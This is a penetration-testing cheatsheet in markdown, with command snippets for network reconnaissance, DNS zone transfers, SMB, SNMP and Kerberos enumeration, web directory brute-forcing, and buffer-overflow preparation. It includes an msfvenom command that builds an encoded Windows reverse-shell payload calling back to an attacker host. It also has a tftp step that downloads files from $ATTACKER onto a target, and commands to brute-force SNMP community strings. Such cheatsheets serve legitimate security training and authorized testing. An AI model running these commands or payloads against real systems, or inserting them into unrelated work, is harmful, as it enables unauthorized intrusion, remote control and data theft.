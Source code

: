 # Offensive Security / PenTesting Cheatsheets
A collection of cheatsheets, convenience functions, reminders and other useful snippets to aid your during your pentest engagement.
Disclaimer: I did not claim ownership of netcat and linux privilege escalation or reverse shell scripts.
The below is heavily inspired and based on https://github.com/dostoevskylabs/dostoevsky-pentest-notes.


## Reconnaissance / Enumeration

##### Extracting Live IPs from Nmap Scan
```bash
nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips
```

##### DNS lookups, Zone Transfers & Brute-Force
```bash
whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
nslookup -> set type=any -> ls -d domain.com
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done
```

##### Banner Grabbing
```bash
nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET
```

##### Kerberos User Enumeration
```bash
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'
```


##### HTTP Brute-Force & Vulnerability Scanning
```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee /root/tools/$target/$target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target/$target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target/$target-wpscan-enum
```

##### RPC / NetBios / SMB
```bash
rpcinfo -p $TARGET
nbtscan $TARGET

#list shares
smbclient -L //$TARGET -U ""

# null session
rpcclient -v "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

##### SNMP
```bash

# Windows User Accounts
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25

# Windows Running Programs
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2

# Windows Hostname
snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27

# Windows TCP Ports
snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3

# Software Name
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2

# brute-force community strings
onesixtyone -i snmp-ips.txt -c community.txt

snmp-check $TARGET
```

##### SMTP
```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

## Gaining Access

##### Generating Payload Pattern & Calculating Offset
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

##### Generating Payload with msfvenom
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

##### Cross-Compiling for Windows from Linux
```bash
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe
```



## Local Enumeration & Privilege Escalation

##### Binary Exploitation with ImmunityDebugger
```
# Show loaded modules. We're interested in modules without protection, Read & Execute permissions
!mona modules
```

```
# Find JMP ESP (FFE4)
!mona find -s "\xFF\xE4" -m moduleName
```

##### Uploading Files to Target Machine
```bash
#tftp; cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp $ATTACKER get /download/location /save/location

```


##### Bash Ping Sweeper
```bash
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

##### Brute-forcing XOR'ed string with 1 byte key with Python
```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

##### Generating Bad Character Strings

```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done
```


##### Port Scanning with NetCat
```bash
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```

##### General File Search
```bash
# query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

